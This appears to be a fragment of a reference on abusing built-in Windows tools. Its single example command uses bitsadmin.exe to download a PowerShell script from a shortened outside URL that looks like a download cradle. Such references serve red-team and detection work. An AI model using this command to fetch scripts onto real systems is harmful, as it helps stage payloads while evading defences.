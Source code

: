 ## bitsadmin.exe

Input:

    bitsadmin.exe  /transfer /Download http://bit.ly/L3g1tCrad1e Default_File_Path.ps1
